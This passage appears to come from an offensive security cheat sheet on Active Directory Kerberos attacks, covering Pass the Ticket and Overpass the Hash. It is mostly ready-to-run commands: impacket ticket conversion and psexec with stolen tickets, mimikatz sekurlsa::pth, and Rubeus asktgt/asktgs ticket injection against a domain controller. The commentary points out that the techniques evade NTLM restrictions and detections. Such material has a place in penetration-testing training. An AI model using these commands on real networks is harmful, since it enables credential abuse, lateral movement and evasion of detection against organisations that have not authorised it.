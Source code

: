 ```bash

# Advanced Pass the Ticket techniques
# Ticket conversion between formats
# .kirbi to .ccache for cross-platform use
impacket-ticketConverter ticket.kirbi ticket.ccache

# Using tickets from Linux
export KRB5CCNAME=ticket.ccache
impacket-psexec domain.local/user@server.domain.local -k -no-pass

# Ticket renewal and lifetime management
# Check ticket expiration
klist                                        # Windows
klist -c ticket.ccache                      # Linux

# Renew tickets before expiration
kinit -R                                     # Linux Kerberos renewal

# Golden/Silver ticket creation and use (covered in previous sections)

# Why Pass the Ticket complements Pass the Hash:
# - Works in Kerberos-only environments
# - Can leverage legitimate user sessions
# - Bypasses NTLM restrictions
# - Enables cross-platform attacks
# - Works with modern authentication protocols
```

### **Overpass the Hash**

**What Overpass the Hash is:** Technique that uses NTLM password hashes to request Kerberos tickets, bridging NTLM and Kerberos authentication.

**Why Overpass the Hash is useful:** Combines benefits of both authentication methods, works in mixed environments, and can bypass some NTLM restrictions.

```bash
# Overpass the Hash execution

# Using mimikatz
mimikatz "sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:hash /run:powershell.exe"
# Then from the new PowerShell session:
klist                                        # Verify no Kerberos tickets initially
net use \\dc01.domain.local\c$              # This will request a Kerberos ticket using the NTLM hash
klist                                        # Now shows Kerberos tickets

# Using Rubeus
.\Rubeus.exe asktgt /user:Administrator /domain:domain.local /rc4:hash /ptt
# Requests TGT using NTLM hash and injects it

# Advanced Overpass the Hash
# Request specific service tickets
.\Rubeus.exe asktgs /ticket:base64tgt /service:cifs/server.domain.local /ptt

# Why Overpass the Hash is valuable:
# - Bridges NTLM and Kerberos authentication  
# - Works in environments transitioning to Kerberos-only
# - Provides more authentication options
# - Can bypass some NTLM-specific detections
```
